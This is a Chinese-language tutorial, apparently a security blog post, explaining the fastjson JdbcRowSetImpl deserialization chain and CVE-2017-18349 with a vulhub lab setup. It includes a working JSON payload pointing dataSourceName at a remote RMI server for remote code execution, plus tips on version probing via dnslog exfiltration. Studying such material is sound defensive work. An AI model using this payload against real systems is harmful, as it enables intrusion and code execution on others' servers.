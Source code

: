  这些技术之间的关系在于 JNDI 作为一个 Java API，它提供了访问不同服务（包括 LDAP）的统一方式。通过 JNDI，可以连接和操作 LDAP 服务器，检索和存储 LDAP 目录中的数据。另外，JNDI 也可以用于查找 RMI 注册表中的远程对象，从而实现远程方法调用。

 总结来说，JNDI 作为 Java 中的一个 API，它提供了统一访问不同服务的方式，允许 Java 应用程序连接和操作 LDAP、RMI 注册表等不同的命名和目录服务。

### JdbcRowSetImpl利用链

在fastjson中我们使用`JdbcRowSetImpl`进行反序列化的攻击，`JdbcRowSetImpl`利用链的重点就在怎么调用`autoCommit`的set方法，而fastjson反序列化的特点就是会自动调用到类的set方法，所以会存在这个反序列化的问题。只要制定了`@type`的类型，他就会自动调用对应的类来解析。

这样我们就可以构造我们的利用链。在`@type`的类型为`JdbcRowSetImpl`类型的时候，JdbcRowSetImpl类就会进行实例化，那么只要将`dataSourceName`传给`lookup`方法，就可以保证能够访问到远程的攻击服务器，再使用设置`autoCommit`属性对lookup进行触发就可以了。整个过程如下：  
 通过设置`dataSourceName`将属性传参给`lookup`的方法—&gt;设置`autoCommit`属性，利用`SetAutoCommit`函数触发connect函数—&gt;触发`connect`函数下面`lookup`函数就会使用刚刚设置的`dataSourceName`参数，即可通过RMI访问到远程服务器，从而执行恶意指令。

exploit如下：

```php
{“@type”:”com.sun.rowset.JdbcRowSetImpl”,”dataSourceName”:”rmi://192.168.17.39:9999/Exploit”,”autoCommit”:true}
```

值得注意的是：1、`dataSourceName`需要放在`autoCommit`的前面，因为反序列化的时候是按先后顺序来set属性的，需要先`etDataSourceName`，然后再`setAutoCommit`。2、rmi的url后面跟上要获取的我们远程`factory`类名，因为在`lookup()`里面会提取路径下的名字作为要获取的类。

### fastjson探测版本

1、使用dnslog外带 最好用自己搭建的dnslog 因为dnslog大多都被写入黑名单内了  
2、**有报错信息，判断版本号** payload 都是没有读到 “{”和“,” 才进入缺陷代码块抛出了异常  
3、使用脚本快速探测版本号 也就是每个POC都打一遍有就有没有就没有

CVE-2017-18349 fastjson 1.2.24-rce
==================================

0x00 简介
-------

fastjson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。即fastjson的主要功能就是将Java Bean序列化成JSON字符串，这样得到字符串之后就可以通过数据库等方式进行持久化了

0x01 漏洞概述
---------

fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

0x02 影响版本
---------

影响范围：fastjson&lt;=1.2.24

0x03 环境搭建
---------

```php
cd /vulhub/fastjson/1.2.24-rce
docker-compose up -d  
docker ps
```
